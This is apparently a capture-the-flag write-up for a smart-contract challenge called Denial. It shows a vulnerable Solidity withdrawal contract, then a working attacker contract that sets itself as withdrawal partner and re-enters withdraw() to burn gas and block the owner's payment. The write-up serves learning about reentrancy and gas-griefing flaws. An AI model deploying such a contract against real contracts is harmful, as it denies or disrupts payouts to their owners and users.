

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
    function withdraw() external;
}

contract Deny {
    IDenial denial;

    constructor(address denailAddress) public {
        denial = IDenial(denailAddress);
    }

    function setAddress(address denailAddress) public {
        denial = IDenial(denailAddress);
    }

    function setWithdrawPartner() public {
        denial.setWithdrawPartner(address(this));
    }

    // allow deposit of funds
    receive() external payable {
        denial.withdraw();
    }
}
```

My solution is to set Deny contract as the withdraw partner and on receiving the fund from Denial contract, calling the withdraw function again and again until the contract runs out of balance or the gas finishes. The withdraw function has checks-effect-interactions pattern missing so reentrancy attack is easy on this Denial contract. The contract should be made secure such that these kind of attacks can be prevented as the receiving address can be a contract and sending a fund on a malicious contract address can trigger different malicious functions where issues such as this can arise.

Or another solution can be running storage extensive operations on Deny Contract when the fund is received such that the gas finishes and the transfer to the owner fails.

You have to run setWithdrawPartner function on Deny Contract so that the contract is set as the withdrawing partner.